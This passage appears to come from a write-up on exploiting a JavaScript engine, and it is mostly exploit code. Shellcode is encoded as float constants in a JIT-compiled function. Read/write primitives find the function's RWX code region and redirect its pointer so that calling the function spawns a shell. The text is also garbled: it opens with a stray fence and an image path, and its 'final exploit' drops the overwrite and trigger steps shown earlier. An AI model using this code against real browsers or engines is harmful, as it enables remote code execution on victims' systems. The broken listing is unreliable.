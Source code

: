 ```python
"""
```

```js
const shellcode = () => {
    return [
		1.95538254221075331056310651818E-246,
		1.95606125582421466942709801013E-246,
		1.99957147195425773436923756715E-246,
		1.95337673326740932133292175341E-246,
		2.63486047652296056448306022844E-284];
}

for (let  i= 0 ; i<10000; i++) { shellcode(); } 
```

```js
shellcode_addr =  GetAddressOf(shellcode); 
console.log("shellcode func addres = "  + shellcode_addr); 
```

```js
code_addr =  ArbRead32(shellcode_addr +  0xc ); 
console.log("code address = "  + code_addr); 
```


```js
rwx_addr =  ArbRead32(code_addr -  1  +  0x14 ); 
console.log("rwx address = " +rwx_addr); 
```


```js
float_shellcode_addr = rwx_addr +   0x69  +  2 ; 
ArbWrite32(code_addr - 1 + 0x14, float_shellcode_addr); 
```

Finally, we will trigger the execution of our shellcode by invoking the `shellcode()` function that we just patched.

```js
console.log("Spawning Shell...")
shellcode() 
```

The final exploit is shown below.

```js
const shellcode = () => {
    return [
		1.95538254221075331056310651818E-246,
		1.95606125582421466942709801013E-246,
		1.99957147195425773436923756715E-246,
		1.95337673326740932133292175341E-246,
		2.63486047652296056448306022844E-284];
}

for (let  i= 0 ; i<10000; i++) { shellcode(); } 

shellcode_addr =  GetAddressOf(shellcode); 
console.log("shellcode func addres = "  + shellcode_addr); 

code_addr =  ArbRead32(shellcode_addr +  0xc ); 
console.log("code address = "  + code_addr); 

rwx_addr =  ArbRead32(code_addr -  1  +  0x14 ); 
console.log("rwx address = " +rwx_addr); 

float_shellcode_addr = rwx_addr +   0x69  +  2 ; 
```
